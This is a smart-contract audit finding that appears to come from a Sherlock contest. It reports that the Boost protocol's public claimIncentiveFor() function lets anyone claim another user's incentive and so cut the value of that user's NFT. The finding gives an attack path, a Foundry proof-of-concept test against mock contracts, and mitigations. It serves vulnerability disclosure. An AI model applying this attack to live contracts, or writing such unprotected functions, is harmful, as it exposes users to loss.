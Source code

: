 Wonderful Vermilion Cougar

Medium

# Anyone can call `claimIncentiveFor()` allowing anyone to claim somebody else's incentive for them which they might not want given that NFT Value would drop

### Summary

As `BoostCore::claimIncentiveFor()` is not marked as internal, anyone is able to call it with a claimant which will cause incentive to be sent to a claimants account which they might have not wanted. This is because NFT Minting actions on boost can make an NFT be worth more money if it promises an incentive if you trade it, however that value goes away as soon as the incentive is claimed.

### Root Cause

`BoostCore::claimIncentiveFor()` is not marked as internal or doesn't have signature checks, it is marked as public

https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L164-L170

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. User completes NFT mint action on boost
2. User doesn't want to claim incentive given that the NFT will be worth more if they don't claim it
3. Attacker calls `claimIncentiveFor()` for the User
4. User gets incentive (which they may not have wanted) and NFT value drops substantially

### Impact

The user suffers a loss of their NFT Value as attacker has claimed their incentive for them, which was tied to their NFT.

### PoC

Add to bottom of `BoostCore.t.sol`
```solidity
    function test_anyoneCanClaimForAnyoneElse() public {
        address NFTMinter = makeAddr("NFTMinter");
        address attacker = makeAddr("attacker");

        boostCore.createBoost(validCreateCalldata);

        hoax(NFTMinter, 1 ether);

        mockERC721.mint{value: 0.1 ether}(address(NFTMinter));

        bytes memory txData = bytes(abi.encode(NFTMinter, bytes(abi.encode(bytes32(uint256(1))))));

        console.log("Minter's balance before: ", mockERC20.balanceOf(NFTMinter));

        hoax(attacker, 1 ether);

        boostCore.claimIncentiveFor{value: 0.1 ether /* To cover fees*/ }(0, 0, address(0), txData, NFTMinter);

        console.log("Minter's balance after: ", mockERC20.balanceOf(NFTMinter));

        assertGt(mockERC20.balanceOf(NFTMinter), 0);
    }
```

### Mitigation

1. Make `claimIncentiveFor()` internal
2. Add signature verification to `claimIncentiveFor()`